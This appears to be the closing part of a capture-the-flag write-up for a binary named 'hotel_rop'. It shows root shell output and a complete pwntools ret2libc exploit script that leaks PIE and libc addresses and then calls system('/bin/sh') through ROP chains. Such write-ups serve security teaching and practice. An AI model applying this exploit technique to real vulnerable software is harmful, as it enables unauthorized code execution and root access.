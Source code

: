 ```
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)

$ whoami
root
```

With that, we successfully popped a shell and pwned the binary!

---

#### Clean Script

```py
from pwn import *

p = process('./hotel_rop')
context.binary = elf = ELF('hotel_rop')
libc = elf.libc

#: RECEIVE LEAK CALCULATE PIE BASE
p.recvuntil(b'main street ')
mainleak = int(p.recvline().rstrip(b'\n'), 16)
elf.address = mainleak - elf.sym.main


#: LEAK PUTS GOT  
rop1 = ROP(elf)
rop1.puts(elf.got.puts)
rop1.main()
p.sendline(flat({ 40: rop1.chain()}))
p.recvuntil(b'often.\n')

#: CALCULATE LIBC BASE FIND BINSH
putsgotleak = u64(p.recvline().strip(b'\n').ljust(8, b'\x00'))
libc.address = putsgotleak - libc.sym.puts
binsh = next(libc.search(b'/bin/sh'))

#: POP SHELL
rop2 = ROP([libc, elf])
rop2.system(binsh)
p.sendline(flat({40: rop2.chain()}))
log.success(f'Enjoy your shell!')

p.clean()
p.interactive()
```
